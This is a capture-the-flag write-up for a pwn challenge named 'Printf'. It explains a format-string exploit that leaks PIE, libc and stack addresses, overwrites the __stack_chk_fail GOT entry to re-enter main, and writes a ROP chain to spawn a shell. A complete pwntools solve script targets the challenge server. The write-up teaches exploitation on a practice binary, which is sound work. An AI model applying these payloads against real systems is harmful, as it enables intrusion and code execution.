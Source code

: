 ## 1. Printf

author: 0x1337
points: 495

the checksec output shows
```
  Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

WoW! we have partial RelRo cant wait for GOT overwrites.

the decomp:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4[2]; // [rsp+8h] [rbp-228h] BYREF
  __int64 buf[68]; // [rsp+10h] [rbp-220h] BYREF

  buf[67] = __readfsqword(0x28u);
  memset(buf, 0, 0x210uLL);
  buf[64] = 1LL;
  buf[65] = (__int64)&buf[64];
  v4[1] = 0;
  v4[0] = 0;
  puts("Easy peasy printf, don't you think?");
  printf("I feel generous so have this: %p\n", main);
  putchar(62);
  __isoc99_scanf("%u", v4);
  if ( v4[0] > 0x20u )
  {
    printf("not this again :)");
    exit(0);
  }
  buf[65] += (unsigned int)v4[0];
  puts("Show me what you've got!");
  printf("> ");
  read(0, buf, 0x200uLL);
  puts("Here we go!!");
  printf((const char *)buf);
  return 0;
}
```



If you're unfamiliar with format strings i recommend you to first read this excellent [blog](https://axcheron.github.io/exploit-101-format-strings/) which explains most of the stuff required in detail.

As you can see, we once again have one shot at printf here... but no stack leak this time,
so we cant modify the RIP in printf's frame easily without some bruteforce.

Instead we have PIE leak:
```c
 printf("I feel generous so have this: %p\n", main);
 ```

 And seeing that the binary has partial relro, you should start thinking which GOT should we be overwriting
 using this leak.
 Another wonderful thing is the stack pointer present in the buffer area which gets modified based on
 our first input

 ```c
 buf[64] = 1LL;
 buf[65] = (__int64)&buf[64];
 ```
```c
buf[65] += (unsigned int)v4[0];
```
`v4` here cant be greater than 32, No problem! we can add '24' to so `buf[64]` will now contain
a pointer to where canary is!!

This is great because if we trigger `__stack_chk_fail` by overwriting canary, we can call main again!
by overwriting the GOT entry of `__stack_chk_fail` with `main` address


So our first payload will try leak libc address and stack address (the stack address where canary is)
and also overwrite GOT entry for  `__stack_chk_fail` as well as canary.

![stack.png](stack.png)

The payload:
```python
sz = exe.sym.main & 0xffff
sz -= 34
pl = b'.%77$p.%73$p.aaa'+f'%{sz}c%14$hnaa'.encode()+b'%2c%73$hnaaaaaaaa'+p64(exe.got['__stack_chk_fail'])
```

Let's deconstruct this payload, here i am leaking 77th and 73rd indexes which contain the libc address
and stack canary addresss respectively
Also the offset of controllable area is again 8 
Then i overwrite the 2 bytes on GOT `__stack_chk_fail` to make it `main` and overwrite canary by doing
`%2c%72$hn`

the `a`s are there for padding 

as you can see, on doing `x/100gx $rsp` after putting a bp on printf
you can see
```
0x7ffc35b49198:	0x00007ffc35b491a8	0x0000000000000000
0x7ffc35b491a8:	0xd7fcc47afa37d700	0x0000000000000001
```
we indeed have a pointer to canary which is the on 73rd index
and

```
0x7ffc35b48f88:	0x0000000000000018	0x252e70243737252e
0x7ffc35b48f98:	0x6161612e70243337	0x2563353932333325
0x7ffc35b48fa8:	0x2561616e68243431	0x6e68243337256332
0x7ffc35b48fb8:	0x6161616161616161	0x000055556f64b010
```

where 0x18 was the num we entered to get it to point to stack_canary and our payload after that.

So we get our leaks, and write the LSB of the canary and the 2bytes of GOT entry
giving us a shot to call main again

like in the previous challenge we once again calculate the rip in printf's stack frame and write our
rop chain in there using pwntools

```python
write = { rip:pop_rdi,rip+8:binsh,rip+16:ret,rip+24:libc.sym.system}
pl = fmtstr_payload(8,write)
```

And finally get our shell


The solve script:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./printf2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal= ['alacritty','-e','bash','-c']


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.blitzhack.xyz",3333)
        context.noptrace=True

    return r


def main():
    r = conn()
    r.recvuntil(b'this:')
    exe.address =  int(r.recvline().strip(),16) -exe.sym.main
    log.info(f'pie : {hex(exe.address)}')
    off = 8
    r.sendlineafter(b'>',b'24')
    sz = exe.sym.main & 0xffff
    sz -=34
    pl = b'.%77$p.%73$p.aaa'+f'%{sz}c%14$hnaa'.encode()+b'%2c%73$hnaaaaaaaa'+p64(exe.got['__stack_chk_fail'])
    print(pl)
    gdb.attach(r)
    r.sendlineafter(b'>',pl)
    l = r.recvuntil(b'aaaaaa')
    print(l)
    libc.address = int(l.split(b".")[1],16) -0x29d90
    stack = int(l.split(b".")[2],16)
    log.info(f"libc : {hex(libc.address)}")
    log.info(f"stack : {hex(stack)}")
    pop_rdi =  libc.address+0x2a3e5
    ret = pop_rdi+1
    binsh = next(libc.search(b'/bin/sh'))
    #one_gad = libc.address + 0x583e3
    #pop_rbx = libc.address+0xef52b
    stk = exe.got['__stack_chk_fail']
    rip = stack-0x470
    log.info(f"the rip :{hex(rip)}")
    write = { rip:pop_rdi,rip+8:binsh,rip+16:ret,rip+24:libc.sym.system}

    pl = fmtstr_payload(8,write)
    print(len(pl))
    sleep(1)
    r.sendlineafter(b'>',b'24')
    r.sendlineafter(b'>',pl)
    r.interactive()


if __name__ == "__main__":
    main()
```
